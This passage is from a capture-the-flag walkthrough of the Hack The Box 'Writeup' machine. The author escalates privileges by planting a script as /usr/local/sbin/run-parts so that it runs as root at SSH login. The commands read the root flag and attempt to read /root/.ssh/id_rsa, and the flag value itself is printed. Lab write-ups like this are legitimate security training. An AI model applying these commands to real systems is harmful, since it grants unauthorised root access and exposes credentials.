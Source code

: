 ```bash
jkr@writeup:~$ echo '#!/bin/sh' > /usr/local/sbin/run-parts
jkr@writeup:~$ echo 'cat /root/root.txt > /tmp/twig' >> /usr/local/sbin/run-parts
jkr@writeup:~$ cat /usr/local/sbin/run-parts
#!/bin/sh
cat /root/root.txt > /tmp/
jkr@writeup:~$ ls -la /usr/local/sbin/run-parts
-rw-r--r-- 1 jkr staff 41 Jul 15 17:27 /usr/local/sbin/run-parts
jkr@writeup:~$ chmod +x /usr/local/sbin/run-parts
```

Then I logged in to trigger it, and checked if the flag had been copied:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/writeup]
└─$ ssh jkr@10.10.10.138
jkr@10.10.10.138's password: 

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Jul 15 17:28:17 2021 from 10.10.16.211
jkr@writeup:~$ cat /tmp/twig 
eeba47f60b48ef92b734f9b6198d7226
```

Nice! We have code execution, and can read the flag.

That's the box!

![[Pasted image 20210715222444.png]]

But can we get a root shell?

### Getting a Shell

I first tried getting a root SSH key, in case it existed:

```
jkr@writeup:~$ echo '#!/bin/sh' > /usr/local/sbin/run-parts
jkr@writeup:~$ echo 'cat /root/.ssh/id_rsa > /tmp/twig' >> /usr/local/sbin/run-parts
jkr@writeup:~$ chmod +x /usr/local/sbin/run-parts
```

There was nothing:

```
jkr@writeup:~$ cat /tmp/twig 
jkr@writeup:~$ 
```

As I'd finished the box, I thought I'd check methods other people had used. [0xdf](https://0xdf.gitlab.io/2019/10/12/htb-writeup.html) copies `bash` and gives it u+s permissions (SUID, to let it run as root). I tried to replicate this, without checking 0xdf's actual script:
